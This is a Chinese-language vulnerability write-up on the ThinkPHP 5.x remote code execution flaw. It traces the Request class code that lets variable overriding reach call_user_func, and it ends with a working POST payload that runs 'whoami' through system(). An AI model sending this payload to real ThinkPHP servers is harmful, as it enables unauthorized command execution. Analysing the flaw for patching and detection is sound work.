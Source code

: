 # TP5代码执行

version:5.0.0<=ThinkPHP5<=5.0.23, 5.1.0<=ThinkPHP<=5.1.32

## Request类任意方法调用

在Request类中的method方法中,$this->method的值为POST请求中_method(默认值)的值,而后再把整个POST数组传递给该方法作为参数,导致可以请求Request类中的任意方法,且参数可控.

```php
    public function method($method = false)
    {
        if (true === $method) {
            // 获取原始请求类型
            return $this->server('REQUEST_METHOD') ?: 'GET';
        } elseif (!$this->method) {
            if (isset($_POST[Config::get('var_method')])) {
                $this->method = strtoupper($_POST[Config::get('var_method')]);
                $this->{$this->method}($_POST);
            } elseif (isset($_SERVER['HTTP_X_HTTP_METHOD_OVERRIDE'])) {
                $this->method = strtoupper($_SERVER['HTTP_X_HTTP_METHOD_OVERRIDE']);
            } else {
                $this->method = $this->server('REQUEST_METHOD') ?: 'GET';
            }
        }
        return $this->method;
    }
```

而在Request类的构造函数中还可以进行变量覆盖,在构造函数中循环检查变量在该类中是否存在,若存在则进行赋值.

```php
    protected function __construct($options = [])
    {
        foreach ($options as $name => $item) {
            if (property_exists($this, $name)) {
                $this->$name = $item;
            }
        }
        if (is_null($this->filter)) {
            $this->filter = Config::get('default_filter');
        }
               // 保存 php://input
        $this->input = file_get_contents('php://input');
    }
```

在Request类中的filterValue()方法中对变量进行了循环过滤,其中$filter为过滤的函数,可以通过刚才的构造函数对该值进行覆盖那么call_user_func()执行的函数则可控

```php
    private function filterValue(&$value, $key, $filters)
    {
        $default = array_pop($filters);
        foreach ($filters as $filter) {
            if (is_callable($filter)) {
                // 调用函数或者方法过滤
                $value = call_user_func($filter, $value);
            } elseif (is_scalar($value)) {
                if (false !== strpos($filter, '/')) {
                    // 正则过滤
                    if (!preg_match($filter, $value)) {
                        // 匹配不成功返回默认值
                        $value = $default;
                        break;
                    }
```

搜索调用filterValue的地方,发现在input方法中调用了filterValue()

```php
   public function input($data = [], $name = '', $default = null, $filter = '')
    {
        if (false === $name) {
            // 获取原始数据
            return $data;
			...
            ...
        // 解析过滤器
        $filter = $this->getFilter($filter, $default);//$filter可被变量覆盖

        if (is_array($data)) {
            array_walk_recursive($data, [$this, 'filterValue'], $filter);//调用filterValue
            reset($data);
        } else {
            $this->filterValue($data, $name, $filter);
        }

        if (isset($type) && $data !== $default) {
            // 强制类型转换
            $this->typeCast($data, $type);
        }
        return $data;
    }
```

而在param()中则调用了该input(),在param()中再次调用了$this->method,而参数为true

```php
    public function param($name = '', $default = null, $filter = '')
    {
        if (empty($this->mergeParam)) {
            $method = $this->method(true);
            // 自动获取请求变量
            switch ($method) {
                case 'POST':
                    $vars = $this->post(false);
                    break;
                case 'PUT':
                case 'DELETE':
                case 'PATCH':
                    $vars = $this->put(false);
                    break;
                default:
                    $vars = [];
            }
            // 当前请求参数和URL地址中的参数合并
            $this->param      = array_merge($this->param, $this->get(false), $vars, $this->route(false));
            $this->mergeParam = true;
        }
        if (true === $name) {
            // 获取包含文件上传信息的数组
            $file = $this->file();
            $data = is_array($file) ? array_merge($this->param, $file) : $this->param;
            return $this->input($data, '', $default, $filter);
        }
        return $this->input($this->param, $name, $default, $filter);
    }
```

参数为true的情况下method方法会调用server('REQUEST_METHOD')

```php
        if (true === $method) {
            // 获取原始请求类型
            return $this->server('REQUEST_METHOD') ?: 'GET';
```

在server的返回中也调用了input,而$this->server也可以进行变量覆盖

````php
    public function server($name = '', $default = null, $filter = '')
    {
        if (empty($this->server)) {
            $this->server = $_SERVER;
        }
        if (is_array($name)) {
            return $this->server = array_merge($this->server, $name);
        }
        return $this->input($this->server, false === $name ? false : strtoupper($name), $default, $filter);
    }
````

POST`_method=__construct&filter[]=system&server[REQUEST_METHOD]=whoami&method=get`来覆盖$filter为system,$value为server[REQUEST_METHOD]=whoami,利用call_user_func()执行命令

![1](1.jpg)

[详细分析](https://0kee.360.cn/blog/thinkphp-5-x-rce-%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90%E4%B8%8E%E5%88%A9%E7%94%A8%E6%80%BB%E7%BB%93/)



